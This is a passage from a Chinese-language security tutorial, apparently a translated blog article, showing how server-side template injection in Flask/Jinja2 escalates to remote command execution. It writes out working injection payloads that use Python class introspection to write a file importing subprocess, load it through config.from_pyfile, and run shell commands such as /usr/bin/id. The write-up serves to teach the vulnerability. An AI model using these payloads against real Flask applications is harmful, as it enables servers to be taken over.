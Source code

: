 让我来更深入地研究一下。虽然执行代码已经足够了，但是我们为了执行每个代码块必须经过多个步骤，这些过程是很乏味的。让我们充分地利用`from_pyfile`方法来达到我们预期的目的，并且向config对象中添加一些有用的东西。将`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}`注入到SSTI漏洞点。这就会在远程服务器上写一个文件，当其被编译的时候，就可以从`subprocess`模块中导入`check_output`方法，并将其设置成一个名为`RUNCMD`变量。如果你回忆一下之前的文章，你就会知道因为`RUNCMD`为一个大写的变量名，就可以被添加到Flask`config`对象中。

![](http://drops.javaweb.org/uploads/images/b409311aad6274551b95822ccb78279cfb7ac8da.jpg)

注入`{{ config.from_pyfile('/tmp/owned.cfg') }}`来将新的项目添加到config对象中。注意以下两幅图一前一后的差异。

![](http://drops.javaweb.org/uploads/images/4b685002daf3b71f9a2ae1fb18554c6040c8df43.jpg)

![](http://drops.javaweb.org/uploads/images/6d3d8b73930fd6ff030277606d09a0108b23a1d4.jpg)

现在我们就可以调用新的配置选项来执行远程命令了。可以将`{{ config['RUNCMD']('/usr/bin/id',shell=True) }}`注入到SSTI漏洞点来进行证明。

![](http://drops.javaweb.org/uploads/images/189c980bc25ac71353271498a2e351ce478c0fca.jpg)

远程代码成功执行。

0x02 Conclusion
=====

现在，我们可以进行Flask/Jinja2模板沙盒逃逸了，并且可以得出结论：SSTI在Flask/Jinja2环境中的影响是巨大的。